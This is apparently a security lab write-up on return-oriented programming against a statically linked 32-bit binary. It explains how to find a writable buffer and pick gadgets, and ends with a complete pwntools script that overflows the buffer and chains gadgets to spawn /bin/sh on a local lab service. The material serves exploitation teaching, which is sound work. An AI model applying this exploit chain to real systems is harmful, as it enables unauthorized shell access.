 # Lab5 rop

## 先備知識

### How to find the writeable buffer

.bss和.data的地方都是可以當buffer寫入的，可以用`gdb$ readelf`來確認他們的address，但因為.bss前面可能會用到，所以我們可以先用x/x <.bss address>來確認可不可以寫，如果是0x00000000的話就是沒有被用到可以寫進去

### flat([])

- 用flat()前要先指定x86或是x64，若為x86則`context.arch="i386"`
- `flat([0x1234, 0x5678])` 等於 `p32(0x1234)+p32(0x5678)`

## simple ROP

execve("/bin/sh", NULL, NULL)

1. write to memory
將"/bin/sh"字串寫入到memory中
2. write to register
eax=0xb, ebx=address of "/bin/sh", ecx=0, edx=0
3. int 0x80

## Solve

1. file <binary> 先看他是否為static linking
2. ROPgadget - -binary <binary> > dump 將gadget dump下來等等可以查看
3. 找BOF return offset → 32，並且只能再塞68bytes gadget
4. gdb$ readelf 找buffer → .bss = 0x80eaf80, .data = 0x80ea060
5. write to memory
    1. 找 mov dword ptr [reg], reg
    cat dump | grep "mov dword ptr \[edx], eax" → 0x0809a15d : mov dword ptr [edx], eax ; ret
    2. 找 pop edx
    cat dump | grep "pop edx" → 0x0806e82a : pop edx ; ret
    3. 找 pop eax
    cat dump | grep "pop eax" → 0x080bae06 : pop eax ; ret
6. write to register

    找pop edx ; pop ecx ; pop ebx ; 
    cat dump | grep "pop edx ; pop ecx ; pop ebx ;"→ 0x0806e850 : pop edx ; pop ecx ; pop ebx ; ret

7. system call

    找int 0x80
    cat dump | grep "int 0x80" → 0x080493e1 : int 0x80

```python
from pwn import *

host = "127.0.0.1"
port = 8888
r  = remote(host, port)

context.arch = "i386" # x86
# context.log_level = "debug" # for debug mode

## bof
payload = 'a'*32 

## write to memory
buf = 0x80ea060 # .data
mov_edx_eax = 0x0809a15d
pop_edx = 0x0806e82a
pop_eax = 0x080bae06
rop = flat([pop_edx, buf, pop_eax, "/bin", mov_edx_eax])
rop += flat([pop_edx, buf+4, pop_eax, "/sh\x00", mov_edx_eax])
# print len(rop) # 40

## write to register
pop_edx_exc_ebx = 0x0806e850
rop += flat([pop_edx_exc_ebx, 0, 0, buf])
rop += flat([pop_eax, 0xb])

## system call
int_0x80 = 0x080493e1
rop += flat([int_0x80])
# print len(rop) #68

payload += rop
r.recvuntil(":")
r.sendline(payload)
r.interactive()
```
